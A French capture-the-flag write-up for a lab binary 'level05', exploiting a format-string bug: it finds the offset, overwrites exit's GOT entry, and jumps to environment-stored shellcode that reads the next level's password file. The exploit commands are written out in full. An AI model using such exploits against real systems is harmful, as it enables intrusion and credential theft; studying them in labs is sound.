 # Level 05
<a href="/level06"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Il y a une vulnerabilité dans le code source le printf a une variable en tant que format
- On commence donc par reperer l'offset
```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```
- Pour que notre shellcode s'execute il faut rediriger la fonction exit vers celui ci
- On recupere donc l'addresse d'exit
<pre>
$> objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497dc R_386_JUMP_SLOT   \__gmon_start_\_
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   \__libc_start_main
</pre>
- Le retour du fgets est modifier pour nous empecher d'y ecrire un shellcode
- La meilleur solution est donc d'ecrire le shellcode dans le env
- On recupere donc l'addresse de la variable SHELLCODE
<pre>
$> env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/1s **(char***)&environ
0xffffdf77:      "SHELLCODE=jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
(gdb) x 0xffffdf77 + 10
<strong>0xffffdf81:      "jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"</strong>
</pre>
- Apres avoir assemblé tout cela donne cette commande
```
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%57205d' + '%11\$n' + '%8318d' + '%12\$n')") | env -i SHELLCODE="$(python -c "print('\x90' * 20 + 'jsh.pashl06/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')")" SHELL=/bin/bash ./level05
```
